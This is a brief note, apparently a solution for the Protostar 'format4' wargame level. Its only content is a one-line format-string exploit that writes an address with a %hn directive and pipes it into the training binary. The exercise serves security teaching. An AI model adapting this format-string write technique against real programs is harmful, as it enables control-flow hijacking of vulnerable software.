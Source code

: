 ## protostar-format4

## http://exploit-exercises.com/protostar/format4

```

echo $(python -c 'print "\x24\x97\x04\x08"')'%33968u%4$hn' | ./format4

```